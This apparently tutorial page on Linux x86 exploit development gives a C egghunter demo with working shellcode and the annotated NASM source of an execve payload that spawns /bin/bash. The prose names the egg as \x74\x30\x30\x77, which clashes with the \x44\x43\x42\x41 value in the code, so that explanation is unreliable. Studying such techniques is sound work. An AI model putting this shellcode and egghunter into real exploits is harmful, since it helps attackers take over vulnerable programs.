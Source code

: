 ## C Demo File
```c
//Egghunter Demo File
#include <stdio.h>
#include <string.h>

#define EGG "\x44\x43\x42\x41"

unsigned char egghunter[] = \
"\x31\xC9\xF7\xE1\x66\x81\xCA\xFF\x0F\x42\x8D\x5A\x04\x6A\x21\x58\xCD\x80\x3C\xF2\x74\xEE\xB8\x44\x43\x42\x41\x89\xD7\xAF\x75\xE9\xAF\x75\xE6\xFF\xE7";

unsigned char shellcode[] = \
EGG
EGG
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void) {
    printf("Shellcode length: %d\n", strlen(shellcode));

    int (*ret)() = (int(*)())egghunter;

    ret();
}
```

It shouldn't matter how we get the `\x74\x30\x30\x77\x74\x30\x30\x77` prepended to our shellcode, as long as it's there. It is the egg repeated twice. 

The shellcode I use is a simple execve payload. The source of which can be found below:

```nasm
global _start

section .text

_start:
    XOR EAX, EAX
    PUSH EAX
    
    PUSH 0x68736162
    PUSH 0x2f6e6962
    PUSH 0x2f2f2f2f ; Stack contents: ////bin/bash\x00\x00\x00\x00

    MOV EBX, ESP    ; ESP now contains a pointer to the start of ////bin/bash...

    PUSH EAX        ; We need another NUL for ENVP's array
    MOV EDX, ESP    ; EDX now contains a pointer to the last NUL pushed

    PUSH EBX        ; argv, array of pointers starting with pointer to ////bin/bash
    MOV ECX, ESP    ; move pointer to this array to ECX
    
    MOV AL, 0x0B

    INT 0x80

```
